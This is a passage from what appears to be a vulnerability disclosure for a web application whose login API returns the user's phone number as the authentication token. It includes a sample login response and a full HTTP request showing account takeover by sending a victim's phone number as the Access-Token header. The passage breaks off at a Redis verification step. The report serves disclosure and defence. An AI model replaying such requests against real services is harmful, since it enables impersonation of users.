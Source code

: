 ```http

```

**Server Response:**
```json
{
  "code": 200,
  "message": "登录成功",
  "data": {
    "token": "13888888888",  ← Phone number returned as token!
    "userId": 123,
    "userName": "testuser",
    "mobile": "13888888888"
  }
}
```
![img.png](/image/image1.png)


### Step 2: Attacker Exploitation

Attacker obtains the victim's phone number (e.g., from social media, business card, data breach) and directly uses it as the authentication token:

```http
GET /clientApi/user/info HTTP/1.1
Host: localhost:8080
sec-ch-ua-mobile: ?0
Sec-Fetch-Mode: cors
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
Sec-Fetch-Site: same-origin
Origin: http://localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
accept: */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Referer: http://localhost:8080/swagger-ui.html
Access-Token:13888888888


```

**Server Response:**
Successfully authenticated as victim!
![img.png](/image/image2.png)


### Step 3: Verification in Redis

Redis shows the vulnerable token storage:
